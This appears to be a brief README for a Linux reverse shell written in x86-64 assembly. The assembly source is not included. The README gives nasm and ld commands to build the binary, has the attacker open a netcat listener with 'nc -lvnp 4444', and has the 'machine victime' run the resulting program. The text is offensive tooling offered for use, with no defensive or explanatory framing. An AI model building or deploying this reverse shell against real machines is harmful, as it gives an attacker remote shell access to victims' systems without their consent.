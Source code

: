 # reverse_shell
reverse shell (linux)

compilation : 
nasm -f elf64 reverse_shell.asm -o reverse_shell.o
ld reverse_shell.o -o reverse_shell


attaquant : nc -lvnp 4444
machine victime : ./reverse_shell
